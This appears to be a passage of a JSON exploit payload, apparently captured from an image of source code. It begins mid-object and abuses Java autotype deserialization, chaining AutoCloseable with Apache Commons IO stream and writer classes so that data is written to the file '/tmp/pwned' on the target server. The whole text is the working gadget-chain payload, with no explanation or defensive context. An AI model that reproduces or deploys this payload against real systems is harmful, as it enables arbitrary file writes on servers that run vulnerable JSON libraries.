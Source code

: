 ```json
      "writer":{
        "@type":"org.apache.commons.io.output.FileWriterWithEncoding",
        "file":"/tmp/pwned",
        "encoding":"UTF-8",
        "append": false
      },
      "charsetName":"UTF-8",
      "bufferSize": 1024,
      "writeImmediately": true
    },
    "trigger":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "is":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{
          "$ref":"$.input"
        },
        "branch":{
          "$ref":"$.branch"
        },
        "closeBranch": true
      },
      "httpContentType":"text/xml",
      "lenient":false,
      "defaultEncoding":"UTF-8"
    },
    "trigger2":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "is":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{
          "$ref":"$.input"
        },
        "branch":{
          "$ref":"$.branch"
        },
        "closeBranch": true
      },
      "httpContentType":"text/xml",
      "lenient":false,
      "defaultEncoding":"UTF-8"
    },
    "trigger3":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "is":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{
          "$ref":"$.input"
        },
        "branch":{
          "$ref":"$.branch"
        },
        "closeBranch": true
      },
      "httpContentType":"text/xml",
      "lenient":false,
      "defaultEncoding":"UTF-8"
    }
  }
}
```